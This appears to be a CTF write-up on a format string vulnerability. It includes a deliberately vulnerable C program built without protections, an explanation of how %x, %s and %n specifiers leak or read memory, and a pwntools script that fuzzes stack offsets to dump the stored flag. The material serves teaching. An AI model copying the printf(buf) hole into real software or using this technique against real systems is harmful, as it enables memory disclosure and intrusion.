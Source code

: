```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[64];
  char flag[64];
  char *flag_ptr = flag;
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("We will evaluate any format string you give us with printf().");
  
  FILE *file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("flag.txt is missing!\n");
    exit(0);
  }
  
  fgets(flag, sizeof(flag), file);
  
  while(1) {
    printf("> ");
    fgets(buf, sizeof(buf), stdin);
    printf(buf);
  }  
  return 0;
}
```

```txt
flag{foRm4t_stRinGs_aRe_DanGer0us}
```

```bash
gcc prog.c -o prog -fno-stack-protector -no-pie -m32
```

In the [[Ret2System]] challenge, it's really just proof-of-concept. In reality, we can't really do something like that against a remote server, we wouldn't really know what address `libc` is at or any of the offset of the functions in `libc`. We'd need to leak those somehow. That can be done with a buffer overflow or a format string vulnerability.

The problem in this challenge's code is the `printf(buf)`. This is because it's not specifying what type of data is being passed into the `printf` with a format specifier. We can't overflow the buffer because of `fgets`, but we can enter some format specifier into the input. If we input a bunch of `%p` or `%x`, we can actually leak hex data from the stack, which can leak data like function addresses and `libc` addresses.

The `printf` function, when not specified with extra parameters and only format specifiers, will try to get the value to print off the stack. Say we want to print the 10th element of the stack, we can input `%10$x` into the `printf`.

> Note: `%s` will treat the value on the stack as a pointer, so if the first value on the stack is `0x0` then `%s` will try to use `0x0` as the pointer, go to the address `0x0` in memory, and print out the data at that address.

What we can do is specify an address first, then use the string format specifier. The specified address will be stored on the stack, then the string format specifier will read that value, go to the address specified by that value, and try to read it: `\xef\xbe\xad\xde%s`.

> Note: We'll use `\xef\xbe\xad\xde%x%x%s` with `%x` being there if the `printf` already specified some other elements which will go on the stack after the specified address. The number of `%x` varies and depends on how many extra variables will go on the stack after the specified address has gone on the stack.

We can also control the width of the input using the `%n` format specifier. More information about different format specifier attacks can be found [here](https://vickieli.dev/binary%20exploitation/format-string-vulnerabilities/). `pwntools` also have some functionalities to exploit format vulnerabilities, which can be found [here](https://docs.pwntools.com/en/stable/fmtstr.html).

In our case, because the flag is already read and stored in stack memory, all we need to do is to continuously print out the next stack data and see if it's the flag or not. This is a python fuzzing script to exploit the executable.

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./format_vuln', checksec=False)

# Fuzz 100 values on top of the stack
for i in range(100):
    try:
        # Create process (level used to reduce noise)
        p = process(level='error')
        
        # When we see the user prompt '>', format the counter
        # e.g. %2$s will attempt to print second pointer as string
        p.sendlineafter(b'> ', '%{}$s'.format(i).encode())
        
        # Receive the response
        result = p.recvuntil(b'> ')
        
        # Check for flag
        # if("flag" in str(result).lower()):
        print(str(i) + ': ' + str(result))
        
        # Exit the process
        p.close()
    except EOFError:
        pass
```

Even with a 64-bit binary, this script still works fine.